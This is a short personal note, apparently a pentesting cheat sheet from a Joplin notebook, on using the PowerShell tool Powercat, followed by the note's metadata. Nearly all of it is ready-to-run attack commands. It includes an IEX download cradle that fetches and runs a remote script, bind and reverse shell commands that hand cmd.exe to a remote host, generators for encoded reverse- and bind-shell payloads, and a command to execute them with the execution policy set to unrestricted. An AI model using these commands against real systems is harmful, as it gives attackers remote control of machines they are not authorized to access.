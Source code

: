 Powercat

<ins>**REQUIRES POWERSHELL SCRIPT TO LOAD**</ins>

\*\*Script is available at \*\*/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

> ..\\powercat.ps1

If the target machine has internet, can load directly from the internet

> IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

# Commands

Bind shell:

> powercat -l -p $PORT -e cmd.exe

Reverse shell:

> powercat -c $IP -p $PORT -e cmd.exe

Payloads:

- For reverse shell: powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
    
- For encoded reverse shell: powercat -c 192.168.119.190 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
    
- For encoded bind shell: powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1
    

To run the payloads: use

> powershell.exe -E (Get-Content '.\\encoded-rshell.ps1' -Raw)

In Powershell. Cmd.exe doesn't seem to work due to some sort of limitation; make sure alternate between powershell and cmd for commands

> PowerShell.exe -ExecutionPolicy UnRestricted -File

id: 1f45fe001a5c493683ce3e44ef34f4b2
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:13:45.803Z
updated_time: 2022-01-20T07:03:20.797Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:13:45.803Z
user_updated_time: 2022-01-20T07:03:20.797Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1